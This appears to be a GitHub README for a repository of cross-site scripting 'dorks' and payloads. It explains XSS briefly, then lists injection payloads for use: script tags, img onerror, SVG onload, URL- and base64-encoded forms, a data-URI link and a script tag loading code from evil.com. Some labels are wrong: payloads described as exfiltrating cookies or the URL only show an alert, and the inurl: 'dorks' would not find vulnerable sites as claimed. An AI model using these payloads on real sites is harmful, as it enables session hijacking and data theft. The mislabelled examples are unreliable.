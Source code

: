 # Cross-Site Scripting (XSS) Dorks Repository

![Cross-Site Scripting](https://img.shields.io/badge/Cross--Site%20Scripting-red)

Welcome to the Cross-Site Scripting (XSS) Dorks repository! This repository contains a collection of XSS dorks and an explanation of what XSS is, along with advanced examples of XSS dorks.

## Table of Contents
- [What is Cross-Site Scripting (XSS)?](#what-is-cross-site-scripting-xss)
- [Examples of Cross-Site Scripting (XSS) Dorks](#examples-of-cross-site-scripting-xss-dorks)
- [Understanding XSS](#understanding-xss)
- [Advanced XSS Concepts](#advanced-xss-concepts)
- [Exploring the GDorks Main Repository](#exploring-the-gdorks-main-repository)
- [How to Use This Repository](#how-to-use-this-repository)
- [Contributing](#contributing)
- [License](#license)

## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a security vulnerability found in web applications that allows attackers to inject malicious scripts into web pages viewed by other users. These scripts execute within the browser, compromising user sessions, stealing data, or redirecting users to malicious sites.

## Examples of Cross-Site Scripting (XSS) Dorks

Here are advanced examples of Cross-Site Scripting (XSS) dorks that illustrate various attack vectors:

1. **<img> Tag XSS Dork**: This dork can be used to identify websites vulnerable to XSS using the `<img>` tag.

   ```
   inurl:/profile.php?username=<img src="javascript:alert('XSS')" />
   ```

2. **Event Handler XSS Dork**: Identifies websites vulnerable to XSS through event handler attributes.

   ```
   inurl:/news.php?id=1" onmouseover="alert('XSS')"--
   ```

3. **Script Injection through Input Fields**: Detects websites susceptible to XSS via input fields.

   ```
   inurl:/search?query=<script>alert('XSS')</script>
   ```

## Comprehensive Cross-Site Scripting (XSS) Payloads

XSS payloads come in various forms and contexts, allowing for diverse exploitation scenarios. Below are examples of XSS payloads in different formats, contexts, and encodings, enabling the demonstration and testing of XSS vulnerabilities:

1. **Basic Alert Payload:**

   ```javascript
   <script>alert('XSS')</script>
   ```

2. **Image Source Payload:**

   ```javascript
   <img src="javascript:alert('XSS')" />
   ```

3. **Input Field Payload:**

   ```javascript
   <input type="text" value="<script>alert('XSS')</script>" />
   ```

4. **Event Handler Payload:**

   ```javascript
   <div onmouseover="alert('XSS')">Mouse over me</div>
   ```

5. **Encoded Payloads:**

   - Basic Alert Payload encoded as URL: `%3Cscript%3Ealert('XSS')%3C%2Fscript%3E`
   - Base64 encoded Payload: `PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

6. **SVG-based Payloads:**

   ```xml
   <svg onload="alert('XSS')" />
   ```

   ```xml
   <svg><script>alert('XSS')</script></svg>
   ```

7. **URL Payloads:**

   - URL payload as a query parameter: `http://example.com/?name=<script>alert('XSS')</script>`

8. **Image Payload with Invalid Source:**

   ```javascript
   <img src="invalid" onerror="alert('XSS')" />
   ```

9. **Data URI Payload:**

   ```html
   <a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=">Click me</a>
   ```

10. **DOM-based Payloads:**

    - Using document.cookie to exfiltrate cookies: `';alert(String.fromCharCode(88,83,83))//'`
    - Using location.href to exfiltrate the URL: `';alert(document.location)//`
   
11. **HTML Event Payloads:**

    - XSS via onerror attribute: `<img src="test" onerror="alert('XSS')" />`
    - XSS via onfocus attribute: `<input type="text" onfocus="alert('XSS')" />`
    - XSS via onload attribute: `<body onload="alert('XSS')" />`

12. **Script Tag Payloads:**

    - Embedding scripts as part of the content: `<script>alert('XSS')</script>`
    - Executing scripts from the URL parameter: `<script src="http://evil.com/malicious.js"></script>`

Feel free to use these payloads to test for XSS vulnerabilities in web applications. Always ensure you have proper authorization and consent before performing any security testing.

Keep in mind that these examples are for educational purposes, and using them for unauthorized testing or exploitation is strictly prohibited.

## Understanding XSS
XSS vulnerabilities can have severe implications, including data theft, session hijacking, and unauthorized access. Understanding the different types of XSS and employing secure coding practices can help prevent such vulnerabilities.

## Advanced XSS Concepts

Advanced XSS involves bypassing filters, utilizing different encoding techniques, and exploiting client-side vulnerabilities. Techniques include DOM-based XSS, circumventing Content Security Policy (CSP), and using JavaScript obfuscation to evade detection.

## Exploring the GDorks Main Repository

The [GDorks repository](https://github.com/Ishanoshada/GDorks/) is a rich resource housing an extensive collection of XSS dorks, categorized folders, and comprehensive documentation covering various XSS attack vectors and methods. It's an invaluable resource for learning and protecting against XSS vulnerabilities.

## How to Use This Repository

This repository is organized into folders, each containing specific XSS dorks and related information. Users can browse through the folders to explore XSS dorks of interest.

To contribute to this repository, follow the steps outlined in the [Contributing](#contributing) section.

## Contributing

Contributions to this repository are welcome! If you have additional XSS dorks, examples, or documentation to share, please follow these steps:

1. Fork the repository.
2. Create a new branch with a descriptive name.
3. Add your XSS dorks or other content.
4. Submit a pull request.

Your contributions will help make this repository more comprehensive and informative for the community.
